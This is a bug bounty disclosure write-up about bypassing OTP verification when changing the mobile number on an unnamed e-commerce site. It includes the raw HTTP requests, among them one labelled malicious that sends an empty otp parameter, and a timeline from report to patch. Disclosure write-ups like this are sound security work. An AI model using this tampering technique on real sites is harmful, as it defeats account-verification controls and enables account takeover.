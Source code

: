```yaml
---
layout: post
title: How I bypassed OTP mechanism used for updating Sensitive Information
---
```


## Scenario

I found this vulnerability in a ecommerce site, the site has a responsible disclosure program

So the vulnerability was in profile updation page, there was a form by which a user can update his/her details, the details also includes `Mobile Number`, when a user tried to update any other detail it was updated normally but when user click on Edit button at `Mobile Number` field, OTP is sent to the registered email, and a popup occurs asking for the OTP, after entering OTP the number field can be enabled and updated

**OTP Validation Request**

```
POST /customer/otp-val HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 85
Connection: close
Cookie: --COOKIES--

otp=123456&type=profile_update_otp&formId=myAccountVerifyOTPForm&mobile_no=NUMBERHERE
```

**Data Updation Request**

```
POST /customer/account HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 222
Connection: close
Cookie: --COOKIES--
Upgrade-Insecure-Requests: 1

csrf_token=--CSRFTOKEN--&save_profile=Save+Changes&otp=123456&fname=Test&lname=Test&mobile=NUMBERHERE
```
## Where is the problem in this flow

There is two different requests one is validating the OTP, and enabling the number field, and another is when actually after updating the number a request is sent with Save button to save the number on the server

There is `otp` parameter in both the requests but the application is completely dependent on the first request, and in the second request the `otp` parameter is not validated

## Exploitation

As mentioned earlier that if user try to update any other field the data updation request is sent which also contains `Mobile Number`

So I clicked on edit `Name` and intercepted the request with burp suite, changed the `mobile` parameter with whatever number and send the request

**Malicious Requests** //Empty `otp` parameter
```
POST /customer/account HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 222
Connection: close
Cookie: --COOKIES--
Upgrade-Insecure-Requests: 1

csrf_token=--CSRFTOKEN--&save_profile=Save+Changes&otp=&fname=Test&lname=Test&mobile=NUMBERHERE
```

The Mobile number is updated without any validation

The vulneraility is now patched

**Time Frame**

Intial Report: 27-May-2020

First Response: 27-May-2020

Patch Released: 2-June-2020
